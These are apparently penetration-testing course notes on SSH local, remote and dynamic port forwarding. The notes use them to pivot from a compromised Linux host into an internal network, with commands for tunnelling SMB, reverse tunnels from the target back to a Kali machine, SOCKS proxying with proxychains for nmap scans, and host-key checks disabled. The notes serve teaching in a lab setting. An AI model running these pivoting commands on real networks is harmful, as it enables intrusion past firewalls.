




## SSH Port Forwarding

- Local port forwarding - Forward a local port on the client machine to some destination located either on or through the server end.
- Remote port forwarding - A remote port on the server is forwarded to a destination either on or through the client end.
- Dynamic port forwarding - connections from various programs are forwarded, via  the SSH client to an SSH server, and finally to several destination  servers.

### SSH Local Port Forwarding by Example

Imagine a scenario where a Linux Client has been compromised.  It is connected to multiple network segments, one of which is not accessible from the outside.  However, this client has some ports which are open through the border firewall and it has been compromised through one of these.

Imagine you want to connect to the Windows Server inside this Internet inaccessible network on port 445.  This can be done by creating an SSH connection from Kali to the Linux client and tunneling port 445 through that connection.  The firewall will only see port 22/SSH traffic.



1. Use SSH's bind feature to create a connection from Kali to the intermediate Linux Client and setup the port forward:

   ```bash
   sudo ssh -N -L 0.0.0.0:445:172.16.216.5:445 student@192.168.216.44
   
   # Options
   -N 	# Do not execute remote command
   -L	# Local Bind option
   0.0.0.0:445:172.16.216.5:445 # Specifies that connections on Kali to the local port 445 are forwarded to Windows Server 2016 on port 445.  
   # LocalIP:LocalPort:RemoteIP:RemotePort
   # Specifying 127.0.0.1 as the source address will limit this forwarding to only apps on the local machine.
   student@192.168.216.44	# Login info for the SSH connection
   ```

   The output will remain paused after entering the SSH password.

2. Set the minimum SMB version to SMBv2 because WinServer 2016 no longer supports SMBv1 by default:

   ```bash
   sudo vi /etc/samba/smb.conf
   
   # Add to end of file
   min protocol = SMB2
   
   # Restart SMB
   sudo systemctl restart smbd
   ```

3. Verify it is forwarding by attempting to list the Samba shares on the remote host.  Point to an IP on the local host, which will be redirected to the Windows 2016 host via the SSH connection to the Linux Client.

   ```bash
   smbclient -L 127.0.0.1 -U Administrator
   ```

This diagram shows the final result:


### SSH Remote Port Forwarding by Example

This is the reverse scenario of local port forwarding, as connections to a specified port on the remote host will be forwarded to a port on the local machine.

Imagine a scenario where the attacker has access to a non-root reverse shell on the Linux Client in the internal network.  There is a MySQL running on port 3306 but the firewall is blocking inbound connections to port 22 and 3306 for this host.



1. On the remote Linux client, create an SSH connection to the external Kali machine, specifying the ports on the Linux Client to be forwarded to the Kali machine:

   ```bash
   ssh -N -R 192.168.119.216:2221:127.0.0.1:3306 rcoyote@192.168.119.216
   
   # Options
   -N 	# Do not execute remote command
   -R	# Remote Bind option
   192.168.119.216:2221:127.0.0.1:3306 # Specifies that a listener will be opened on the remote end (192.168.119.216:2221) that will forward connections to the local port (127.0.0.1:3306) 
   coyote@192.168.119.216	# Login info for the SSH connection
   ```

   Remember to make SSH is started on Kali and that it is allowed through the local firewall.

2. Verify on the remote end (Kali) that the port (2221) has been opened:

   ```bash
   ss -antp | grep 2221
   ```

3. Access the SQL Server using port 2221 on the local host, which will be forwarded via the SSH rule to port 3306 on the remote Linux Client over port 22/ssh.

   ```bash
   sudo nmap -sS -sV 127.0.0.1 -p 2221
   ```

This diagram shows the final product:


#### Forwarding Restrictions

By default, OpenSSH only allows connecting to remote forwarded ports from the server host, meaning nobody can use the server as a gateway to access the port forward on the tunnel.  However, the `GatewayPorts` option in the server configuration file `sshd_config` can be used to control this.  The following alternatives are possible:

```bash
# 'No' prevents connecting to forwarded ports from outside the server computer.  This is the default.
GatewayPorts no
# 'Yes' allows anyone to connect to the forwarded ports.  If the server is on  the public Internet, anyone on the Internet can connect to the port.
GatewayPorts yes
# 'clientspecified' means that the client can specify an IP address from which connections to the port are allowed.
GatewayPorts clientspecified   
```

When using the `client specified` option, the client end will supply the IP that is allowed to access the tunnel in the SSH connection options:

```bash
# In this example, only connections from the IP address 52.194.1.73 to port 8080 are allowed.
ssh -R 52.194.1.73:8080:localhost:80 host147.aws.example.com
```

### SSH Dynamic Port Forwarding Example

Assume the Linux Client has been compromised and we have elevated privileges on the client.  There do not seem to be any restrictions inbound or outbound on the firewall.  The Linux Client is connection to a second network that is inaccessible to the Internet.   In the Local Port forwarding example, we only needed to access the SMB shares on the Windows 2016 server, but now we want to be able to access any port on any IP in that network without creating separate tunnels.



1. On the Kali machine, setup an SSH connection with the intermediary Linux Client, specifying Dynamic port forwarding:

   ```bash
   sudo ssh -N -D 127.0.0.1:8080 student@192.168.216.44
   
   # Options
   -N 	# Do not execute remote command
   -D	# Dynamic Bind option, creates local SOCKS4 application proxy
   127.0.0.1:8080	# Specifies the local port to use as the proxy
   student@192.168.216.44	# Login info for the SSH connection to the Linux Client
   ```

2. On Kali, use proxy chains to run standard network applications through the create proxy connection.  Edit `/etc/proxychains.conf` and add the SOCKS4 proxy to the `[ProxyList]` section.

   ```bash
   [ProxyList]
   # add proxy here ...
   # meanwile
   # defaults set to "tor"
   socks4 127.0.0.1 8080
   ```

3. To run any tool through the proxy, simply prepend every command with `proxychains`:

   ```bash
   proxychains nmap --top-ports=20 -sT -Pn 172.16.216.5
   ```
   
   With SOCKS proxies, nmap scans must be connection-oriented and pings won't work, so use -sT -Pn for TCP scans with no pings.

### Other Options

#### Reverse Connection from Non-Interactive Prompt on Target

If you need to run this using a non-interactive prompt, you will need to get around the password prompt and the RSA acceptance message.  To do this, create a key on the remote end to use as the authentication mechanism:

```bash
mkdir /tmp/keys
ssh-keygen 
	/tmp/keys/id_rsa_coyote
cat /tmp/keys/id_rsa_coyote.pub
```

Add this public key to the trusted keys on Kali in `~/.ssh/authorized_keys` with restrictions only allow the IP (if NAT is in use, use the NAT'ed IP) of the target as well as only allow forwarding.

```bash
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDkuK7GzKRtsaPYDPMAyCyVSZkKc0pVG8yBAiQN9pnHYUbiqdHdp4j2wDbvnpThTZQ3R5A4xstAU12m9W8EYmp4wg+22re77vQxrX2+z3dpi0HiMBaUF/5vYVPgL2uWxkJ8kpT5VuhnN7KvQLISeb1nVoH3eiqO5SX+oPqyeSvz9CetaFP510T3D8tYYJK+MZJLEazQ63OGbzxitLVwYxPnzpw9AfDfg/GozttEfjZ93yHESjqkK0iAk9DcSnjC9wF63U/sBH4v0n/0aqdghBxpvRuh/vWABKluAC78accKecMJW8jlMTDpoGHGZzmHw9TqoXuO42+d7zpLczNzM0uZ www-data@ajla

#Options
from="10.11.1.250"	# Allowed IP of the target
command="echo 'This account can only be used for port forwarding'"	# Disables commands with the command option
no-agent-forwarding	# Disable agent forwarding
no-X11-forwarding	# Disable x11 forwarding
no-pty 				# Block pty allocation
ssh-rsa .....		# Public key from target
```

Initiate the SSH connection

```bash
ssh -f -N -R 192.168.119.216:1122:10.5.5.11:22 -R 192.168.119.216:13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa_coyote coyote@192.168.119.216

# Options
-f	# Backgrounds the SSH process
-o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" # disables the host key check
-i /tmp/keys/id_rsa_coyote  # Uses RSA authentication
```

#### Reverse Dynamic Connection

1. A dynamic connection from the target can be setup using the same steps as above but a different SSH connection:

2. ```bash
   ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/coyote_rsa coyote@192.168.119.216
   
   -R 1080	# because no host is specified after the port, it instructs Kali to create a SOCKS proxy on port 1080 that uses the SSH tunnel
   
   ```

3. On Kali, use proxy chains to run standard network applications through the create proxy connection.  Edit `/etc/proxychains.conf` and add the SOCKS4 proxy to the `[ProxyList]` section.

   ```bash
   [ProxyList]
   # add proxy here ...
   # meanwile
   # defaults set to "tor"
   socks4 127.0.0.1 8080
   ```

4. To run any tool through the proxy, simply prepend every command with `proxychains`:

   ```bash
   proxychains nmap --top-ports=20 -sT -Pn 172.16.216.5
   ```

   Remember with SOCKS proxies, nmap scans must be connection-oriented and pings won't work, so use -sT -Pn for TCP scans with no pings.

### Others to try:

This looks promising if you are having issues with the normal tools.  It only seems to work on Linux:  https://github.com/sshuttle/sshuttle